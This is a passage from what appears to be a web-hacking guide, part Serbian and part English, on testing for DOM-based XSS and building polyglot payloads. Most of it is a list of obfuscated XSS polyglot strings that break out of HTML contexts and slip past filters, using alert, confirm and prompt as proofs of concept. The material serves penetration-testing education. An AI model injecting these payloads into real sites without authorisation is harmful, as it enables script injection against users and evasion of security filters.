 Da biste testirali DOM bazirani XSS, potrebno je uneti zlonamerni kod u input polje ili URL parametar koji će biti korišćen za manipulaciju DOM-a. Zatim posmatrajte da li se zlonamerni kod izvršava u browseru korisnika.

```markup
" onclick=alert() a="
'"><img src=x onerror=alert(1) />
javascript:alert()
```

### Poligloti

A polyglot is a file that can be interpreted as different file types depending on the context in which it is executed. In the context of web hacking, polyglots can be used to bypass security measures and execute malicious code.

Polyglots are typically created by taking advantage of the similarities between different file formats. By carefully crafting a file that adheres to the specifications of multiple file types, it is possible to create a polyglot that can be interpreted differently by different applications.

Polyglots can be used in various ways during a web hacking engagement. For example, a polyglot file can be uploaded to a web application that accepts multiple file types, allowing an attacker to execute arbitrary code. Similarly, a polyglot payload can be embedded in a web page, exploiting a vulnerability in the browser or a plugin to execute malicious code.

When working with polyglots, it is important to understand the file formats involved and the specific vulnerabilities that can be exploited. Additionally, it is crucial to test the polyglot in different contexts to ensure that it behaves as expected and achieves the desired outcome.

Overall, polyglots are a powerful tool in the arsenal of a web hacker, allowing for creative and stealthy exploitation of vulnerabilities. By understanding the principles behind polyglots and their potential applications, hackers can enhance their ability to bypass security measures and achieve their objectives.

```markup
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm( 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
<svg%0Ao%00nload=%09((pro\u006dpt))()//
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/--><svg/onload=/*<html/*/onmouseover=alert()//>
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>--><svg onload=/*<html/*/onmouseover=alert()//>
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template><svg/onload='/*--><html */ onmouseover=alert()//'>`
```